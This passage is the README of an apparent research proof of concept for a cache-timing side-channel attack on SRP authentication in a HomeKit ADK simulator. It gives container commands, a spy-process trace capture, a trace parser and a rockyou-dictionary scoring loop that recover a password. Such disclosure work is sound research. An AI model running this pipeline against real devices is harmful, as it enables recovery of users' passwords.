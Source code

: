 ## Run the PoC

Build and run container :
```
docker build --rm -t parasite_adk .
docker run --mount type=bind,source="$(pwd)"/shared_folder,target=/PoC_PARASITE/shared_folder -it parasite_adk
```

Run PoC :
```bash
# Launch the SRP simulation along with the spy process to acquire some traces
./poc.sh
# Interpret the execution trace generated by the spy process to extract information
trace_parser.py traces_admin_password_0102030405060708090A0B0C0D0E0F10/* > infos.txt
# Given the extracted information, compute a matching score for all passwords in the dictionary. The lower the score, the higher the chance we found the correct password
for info in $(cat infos.txt | grep -v "Error");
do
    dict_reducer /usr/share/dict/rockyou.txt $info
done
```

The first step may be an issue on different CPU. Namely, we add issue reproducing the attack on different station, where only the end of the exponentiation was caught by the spy, which we can't currently explain. You may can to run the parsing and reduction on the data we collected on our station to get reliable results.
The data are available in shared_folder.
To do so, simply run:
```bash
trace_parser.py shared_folder/traces_admin_password_0102030405060708090A0B0C0D0E0F10/* > infos.txt
for info in $(cat infos.txt | grep -v "Error");
do
    dict_reducer /usr/share/dict/rockyou.txt $info
done
```

# Using HomeKit PoC with non default parameters
Currently the id, password and salt are directly written in the code of the HomeKit ADK simulator and use the default values (admin, password, 0102030405060708090A0B0C0D0E0F10). To test the PoC with other parameters the source code of the simulator need to be changed and recompiled.
The source code can be changed at HomeKitADK/Applications/ADKSimulator/main.c. It can be easily recompiled by rebuilding the container.

Then when using the PoC you can specify the values (salt must be 16 bytes long):
```
./poc.h -u user -p pwd -s 000102030405060708090A0B0C0D0E0F
```
